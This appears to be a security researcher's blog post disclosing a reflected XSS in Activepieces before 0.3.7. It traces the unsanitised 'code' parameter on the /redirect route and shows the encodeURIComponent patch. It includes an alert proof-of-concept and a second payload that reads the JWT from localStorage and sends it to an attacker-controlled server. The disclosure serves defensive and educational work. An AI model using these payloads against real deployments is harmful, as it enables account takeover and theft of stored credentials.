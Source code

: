 ```yaml
---
layout: default
title:  "XSS on Steroids | Gaining Unauthenticated Access"
date:   2023-04-10 11:12:00 -0500
categories: jekyll update
templateEngineOverride: md
permalink: /bloghub/xss-on-steroids/
---
```


{% raw %} 

## Introduction  

[Activepieces](https://www.activepieces.com/) is an open-source business automation tool, aka the open-source alternative for *Zapier*, which helps individuals automate flows and their work in a flexible UI environment without the need to write code, for example, you can build automation with *Activepieces* to send a Slack notification for each new Trello card.  

In my effort to help the open-source world enhance its security posture, I decided to do vulnerability research, meanwhile testing, I identified a reflected XSS that helps unauthenticated attackers gain access by inducing victims to click on the specially crafted link. 

Following this article, we are going to explore the technical details of the vulnerability, exploit it, and showcase how it was mitigated. 

## Impact

Versions prior to `0.3.7` are vulnerable to **Reflected XSS**, which leverages unauthenticated attackers to gain access and possibly steal credentials for added pieces and flows.

## Deep Dive

The application is written with TypeScript, a Typed JavaScript framework. The [application](https://github.com/activepieces/activepieces) separates frontend and backend code in separate folders inside the **packages** directory.

```html
$> tree packages -L 1
packages
├── backend
├── ee
├── engine
├── frontend
├── pieces
└── shared
```

Moreover, the backend structure looks as follows, where it’s pretty obvious where the backend code and unit tests reside.

```html
$> tree packages/backend -L 2 
├── jest.config.ts
├── project.json
├── src
│   ├── app
│   ├── assets
│   └── main.ts
├── test
│   ├── resources
│   └── workers
├── tsconfig.app.json
├── tsconfig.json
├── tsconfig.spec.json
├── types
│   ├── fastify.d.ts
│   └── redis-lock.d.ts
└── webpack.config.js
```

Reviewing `main.ts` which from its name indicates the main function and application starter, indeed, we can see the starter function at the end of the file.

**activepieces/packages/backend/src/main.ts**

```jsx
const start = async () => {
try {
	.... 
	await app.listen({
            host: "0.0.0.0",
            port: 3000, 
				}); 
	}
}
```

the app object defines an interesting route `/redirect` that accepts user input from the *code* parameter. 

**activepieces/packages/backend/src/main.ts**

```jsx
app.get(
    "/redirect",
    async (
        request: FastifyRequest<{ Querystring: { code: string; } }>, reply
    ) => {
        const params = {
            "code": request.query.code
        };
        if (params.code === undefined) {
            reply.send("The code is missing in url");
        }
        else {
            reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${params['code']}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
        }
    }
);
```

As we can see, when the *code* parameter is set, the code flows to the *else* branch and returns an HTML containing the user input passed as a parameter to the *window.opener.postMessage(),* the parameter misses sanitization such as HTML encoding or URL encoding before it's reflected in the browser. 

Crafting a payload that closes the called function following it with our payload will eventually look as follows:

```
test' },'*')} else alert('poc');//
```

 This can be also leveraged to steal the authenticated JWT token:

```
test' },'*')} else { const xhr = new XMLHttpRequest();xhr.open('GET', '[https://](https://enxwjqx3bxw4.x.pipedream.net/)<your server>' + localStorage.getItem('token'));xhr.send(); }//
```

## Patch

The vulnerability was mitigated by passing the *params[’code’]* to `encodeURIComponent()`. 

```jsx
else {
 reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${encodeURIComponent(params['code'])}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
      }
```


{% endraw %}